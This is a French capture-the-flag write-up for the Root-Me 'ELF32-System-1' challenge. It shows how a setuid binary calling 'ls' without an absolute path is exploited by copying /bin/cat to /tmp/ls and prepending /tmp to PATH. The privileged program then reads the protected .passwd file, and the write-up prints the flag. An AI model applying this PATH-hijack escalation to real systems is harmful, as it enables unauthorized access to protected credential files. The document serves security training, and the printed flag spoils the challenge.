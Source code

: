 ## Source et énoncé du CTF

<https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1>

## Write-up

Le but de ce CTF est d'exploiter le binaire *ch11* pour lire le contenu du fichier */challenge/app-script/ch11/.passwd* contenant le flag.

Le code source en langage C du programme *ch11.c* est donné ci-dessous :

```console
    #include <stdlib.h>
    #include <sys/types.h>
    #include <unistd.h>
     
    int main(void)
    {
        setreuid(geteuid(), geteuid());
        system("ls /challenge/app-script/ch11/.passwd");
        return 0;
    }
```

On remarque une chose : 
* Le binaire utilise la commande *ls* sans utiliser son chemin absolu (faille potentielle)

Une fois compilé, le programme *ch11.c* produit le binaire *ch11*

En listant les fichiers du répertoire de travail, on obtient les droits suivants :
```console
app-script-ch11@challenge02:~$ ls -la
total 36
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11 4096 Dec 10  2021 .
drwxr-xr-x 25 root                    root            4096 Sep  5  2023 ..
-r--------  1 root                    root             775 Dec 10  2021 ._perms
-rw-r-----  1 root                    root              43 Dec 10  2021 .git
-r--------  1 app-script-ch11-cracked app-script-ch11   14 Dec 10  2021 .passwd
-r--r-----  1 app-script-ch11-cracked app-script-ch11  494 Dec 10  2021 Makefile
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11 7252 Dec 10  2021 ch11
-r--r-----  1 app-script-ch11-cracked app-script-ch11  187 Dec 10  2021 ch11.c
```

On remarque deux choses :
* Le fichier *.passwd* n'est accessible en lecture que par l'utilisateur *app-script-ch11-cracked*
* Le SUID Bit est positionné sur le fichier binaire *ch11*, et on se rappel que ce droit permet à tout utilisateur d'exécuter le fichier avec les droits de l'utilisateur propriétaire du fichier, c'est à dire avec les droits de *app-script-ch11-cracked*.

En exécutant le binaire *ch11*, on confirme que son contenu correspond au code source fourni :
```console
app-script-ch11@challenge02:~$ ./ch11
/challenge/app-script/ch11/.passwd
```

On en déduit que le binaire *ch11* sera le vecteur pour afficher le contenu du fichier *.passwd* puisqu'il permet à l'utilisateur *app-script-ch11* d'exécuter une commande en tant que l'utilisateur *app-script-ch11-cracked*. Le problème étant que la commande exécutée (définie dans *ch11.c*) n'est pas *cat* mais *ls*.

On doit donc trouver un moyen permettant de faire en sorte que la commande *ls* exécute le binaire */bin/cat* au lieu du binaire */bin/ls*. Pour cela, on copie le contenu du binaire */bin/cat* dans un fichier que l'on nomme *ls* et que l'on stock dans un répertoire pour lequel on a les droits en écriture (par exemple */tmp*) :
```console
app-script-ch11@challenge02:~$ cat /bin/cat > /tmp/ls
```

Ensuite, nous devons modifier le PATH de façon à ce que le système recherche le binaire *ls* prioritairement dans le répertoire */tmp* plutôt que dans le répertoire */bin*. On rappel que le système parse le PATH dans l'ordre de défintion des répertoires :
```console
app-script-ch11@challenge02:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/

app-script-ch11@challenge02:~$ PATH=/tmp:$PATH
app-script-ch11@challenge02:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/
```

On peut enfin exécuter le binaire *ch11* pour afficher le contenu du fichier *.passwd* et obtenir le flag :
```console
app-script-ch11@challenge02:~$ ./ch11
!oPe96a/.s8d5
```

## Flag

!oPe96a/.s8d5